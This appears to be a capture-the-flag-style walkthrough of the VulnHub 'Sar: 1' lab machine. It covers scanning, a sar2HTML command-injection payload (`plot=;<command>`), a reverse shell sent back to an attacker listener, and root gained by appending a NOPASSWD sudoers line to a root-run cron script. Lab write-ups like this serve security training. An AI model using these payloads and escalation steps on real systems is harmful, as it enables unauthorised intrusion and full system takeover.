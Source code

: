 <p align="center"><img src="https://github.com/AkaSec-1337-CyberSecurity-Club/Introduction/raw/main/light-14.jpg" alt="AkaSec 1337 CyberSecurity Club Logo"/><br></p>

# Introduction

Sar is an OSCP-Like VM with the intent of gaining experience in the world of penetration testing.

This box is on the <a href="https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0">NetSecFocus Admin list</a> of OSCP-like machines. It’s <a href="https://www.vulnhub.com/entry/sar-1,425/">SAR: 1</a> from vulnhub.

## Setup Machine

First of all, I setup <a href="https://www.vulnhub.com/entry/sar-1,425/">sar machine</a> locally in a virtualMachine with the name **sar** then started it.
After starting the machine, I got its IP address using **VBoxManage** command
```bash
$> VBoxManage guestproperty enumerate sar | grep IP
```
<p align="center"><img src="screenShots/GetMachineIP.png" alt="Machine IP"/></p><br>

## Enumeration

### Nmap

The first step to penatrate a machine is gather information about it. After getting its IP address we can scan its to get open ports and service using **nmap** command

```bash
$> nmap FLAGS IPADDRESS
-A flag for aggressive scanning
-sV flag detect running services and their version
```

<p align="center"><img src="screenShots/Nmap.png" alt="Scan IP address with nmap"/></p><br>

### Fuzzing

The output shows that we have port 80 open, so we can access the ip via browser, The default page shows apache info page.
The next step is searching for more directories and files, to do that we can use **dirb** tool

```bash
$> dirb http://IPADDRESS/ /path/to/wordlist
```

<p align="center"><img src="screenShots/Dirb.png" alt="Fuzzing for more paths"/></p><br>

The output of **dirb** tool shows 3 valid paths, `index.html` which is the default apache page, `phpinfo.php` shows php info, and finally `robots.txt` that has `sar2HTML` text.
I put that text as path in URL and I got the following page

<p align="center"><img src="screenShots/sar2HTML.png" alt="sar2HTML page"/></p>

### Exploiting

After reading the content I decided to look up sar2Html in google, and I found that it is a service that has a Remote Code Execution vulnerability, I exploited it as described in <a href="https://www.exploit-db.com/exploits/47204">exploit-db</a>, `IPADDRESS/sar2HTML/index.php?plot=;<command>` this will execute the command and show the output of it in select host droplist at the left of the page.

<p align="center"><img src="screenShots/RunTheExploit.png" alt="Exploited sar2HTML"/></p>

After executing the command I immediately thought of a reverse shell, I found this <a href="https://github.com/AssassinUKG/sar2HTML">Reverse Shell for sar2HTML</a> and executed it as follow

```bash
$> ./sar2HTML -ip MACHINEIPADDRESS -rip LISTENING_SERVER_FOR_REVERSE_SHELL -pe DIRECTORY
```
running `rs session` on the webShell will create a server (listening on `IP:PORT` provided in `-rip` flag) with a Reverse Shell.<br>
After getting the reverse shell I started checking the current directory, which is `/sar2HTML`, then back one step to parent directory which is `/var/www/html`.<br>
I found in this directory 2 suspicious files, `finally.sh` with root as owner and `write.sh` with current user as owner which is `www-data`.<br>
After printing their content I found that `finally.sh` execute `write.sh` file, where `write.sh` file create `/tmp/gateway` file using `touch` command.<br>
That is all I could get for now.
<p align="center"><img src="screenShots/ReverseShell.png" alt="Reverse Shell"/></p>

### LinPEAS

For more information about the system we can use `LinPEAS` tool, this tool can find possible CVEs and vulnerabilities that we can exploit.

<p align="center"><img src="screenShots/LinPEAS.png" alt="LinPEAS"/></p>
<p align="center"><img src="screenShots/Information.png" alt="LinPEAS"/></p>

After scrolling more and reading through the output, I found that the system is vulnerable to `CVE-2021-4043` (I won't exploit it for now).<br>
Reading more I found a cronjob that runs every 5 minutes, the cronjob was highlighted by the `LinPEAS tool`.<br>
The cronjob runs the `finally.sh` script that we found in `/var/www/html` as root, so whatever is written in `write.sh` will be run as root every 5 min.

<p align="center"><img src="screenShots/VulnerabilityFound.png" alt="LinPEAS"/></p>

The way to privilege escalating is to set the current user `www-data` in the sudoers list in `/etc/sudoers` which can be updated only by the root.<br>
I appended to `write.sh` script some commands to check sudoers file, then added `echo "www-data ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers` to `write.sh` script.<br>
This will add the current user `www-data` to sudoers so he can run any command without password, Thus after 5 min I ran `sudo bash` as a sudoer and got bash with root privileges. 
<p align="center"><img src="screenShots/PrivilegeEscalating.png" alt="LinPEAS"/></p>



